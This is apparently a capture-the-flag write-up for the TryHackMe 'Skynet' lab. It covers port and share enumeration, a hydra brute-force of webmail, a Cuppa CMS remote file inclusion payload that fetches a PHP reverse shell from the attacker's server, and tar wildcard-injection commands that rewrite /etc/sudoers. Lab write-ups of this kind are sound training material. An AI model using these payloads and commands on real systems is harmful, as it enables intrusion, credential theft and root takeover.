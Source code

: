 # tryhackme ctf challenge skynet
my machine: 10.9.234.242
target ip: 10.10.255.185

### procedure
perform nmap scan `nmap -sC -sV 10.10.255.185`

```
#result
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities more Pre-login ID have IMAP4rev1 LOGIN-REFERRALS listed OK ENABLE post-login LITERAL+ SASL-IR IDLE LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

perform gobuster scan to enumerate website directories `gobuster dir -w <path to wordlist> -u http://10.10.255.185`

![gobuster](images/gobuster.png)

lets enumerate the samba shares using nmap's scripting engine `nmap -p445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.255.185`

```
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.255.185\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.255.185\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.255.185\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.255.185\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users: 
|   SKYNET\milesdyson (RID: 1000)
|     Full name:   
|     Description: 
|_    Flags:       Normal user account
```

lets login as `Anonymous` with blank password in the anonymous share using this command `smbclient //10.10.255.185/anonymous -U Anonymoys` and get the files

![smblogin](images/smb.png)

There were 2 files in the anonymous share

It looks like all employees of skynet had their password reset

![msg1](images/msg1.png)

This looks like a password list we use to brute into the `/squirrelmail`

![msg2](images/msg2.png)

Let's try to bruteforce it using hydra

![brute](images/brute.png)

Now lets login to the squirrel mail using milesdyson as the username and the password we got from hydra

![mailhome](images/mailhome.png)

One of the email mentioned milesdyson's smb reset password.

![smbreset](images/smbreset.png)

Lets try to login using kali's smbclient app. go to the notes directory and download the file `important.txt`

![notes](images/notes.png)

Looks like we found a hidden url to use. lets go to this directory

![hideen](images/hidden.png)

I tried to look into the page, but it was empty. lets try to perform gobuster again `gobuster dir -w <path to wordlist> -u http://10.10.255.185/45kra24zxs28v3yd/`

We got /administator. Looks like this is an old cms by cuppa. lets try to find an exploit for this using `searchsploit`

![cuppa](images/cuppa.png)

![searchsploit](images/searchsploit.png)

We have a result for LFI/RFI vulnerabilities for cuppa cms.

```
#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

lets setup a simple python server to setup a php reverse shell.
get the exploit from this link https://www.revshells.com/ and use the pentestmonkey add it to your local dir. On the same dir use the python command `python3 -m http.server` and setup a listener using `nc -lvnp <port#>`

![python](images/python.png)

Now type in this url http://10.10.255.185/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.234.242/payload.php and change the values as needed and now we get the shell.

![shell](images/shell.png)

Check the file `/etc/crontab` and we'll see backup.sh that runs every minute.

![crontab](images/crontab.png)

If we try to check the code, we'll see a tar command that archives the files from `/var/www/html` using a wildcard `*` which is vulnerable from wildcard injection. This is our vector for priv escalation. Kindly check this link to learn more https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/

Lets run the following commands

```
cd /var/www/html
# the command below will overwrite the sudoers file to give www-data sudo access with no password
echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "hello world" > "--checkpoint=1"
echo "hello world" > "--checkpoint-action=exec=sh privesc.sh"
```

![backup](images/backup.png)

Now, give it a minute and run the `sudo -l` command and there you have it.

![root](images/root.png)
